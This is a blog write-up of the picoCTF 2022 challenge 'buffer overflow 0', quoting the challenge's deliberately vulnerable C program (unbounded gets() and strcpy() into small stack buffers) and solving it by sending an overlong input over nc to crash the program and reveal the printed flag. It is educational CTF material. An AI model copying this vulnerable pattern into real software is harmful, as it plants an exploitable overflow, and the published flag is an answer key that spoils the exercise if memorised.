 ```yaml
---
title: "picoCTF 2022: Binary Exploitation: buffer overflow 0"
seoDescription: "Smash the stack. Let's start off simple, can you overflow the correct buffer? The program is available here. You can view the source here. And connect..."
datePublished: Sat Oct 15 2022 10:26:45 GMT+0000 (Coordinated Universal Time)
cuid: cl99rxq9d001209me9g2ic7mh
slug: picoctf-2022-binary-exploitation-buffer-overflow-0
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1665829497838/cQfnMAzjk.png
tags: cyber-security, ctf, binary-exploitation, picoctf, picoctf-2022

---
```


## Introduction
**Challenge:** [buffer overflow 0](https://play.picoctf.org/practice/challenge/257?originalEvent=70&page=1)

**Category:** Binary Exploitation

**Description:**

Smash the stack.
Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/521/vuln). You can view the source [here](https://artifacts.picoctf.net/c/521/vuln.c). And connect with it using:
```bash
nc saturn.picoctf.net 65355
```

## Solution
Here we've been provided with the binary executable and the source code. Let's take a look at the source code.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler

  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
The one thing that I noticed is that we are printing the flag on a segmentation fault, which is an error raised by memory-protected hardware whenever it tries to access a memory address that is either restricted or does not exist. If the flag `printf()` resides within `sigsegv_handler()`, then we can safely assume that we must figure out how to trigger a segmentation fault.
```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```
We see that on line 40, the horrible `gets()` is called, and reads buf1 (the user input) onto the stack. This function sucks, as it will write the user’s input to the stack without regard to its allocated length. The user can simply overflow this length, and the program will pass their input into the `vuln()` function to trigger a segmentation fault:
```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

gets(buf1); 
vuln(buf1);
```
Let's run the program and see if we get the flag if we did a segmentation fault:
```bash
nc saturn.picoctf.net 65355
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}
```
Yeah, we got the flag!

## Conclusion
Basically what we did was we did a buffer overflow. That means we have exceeded the size of a buffer.

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}`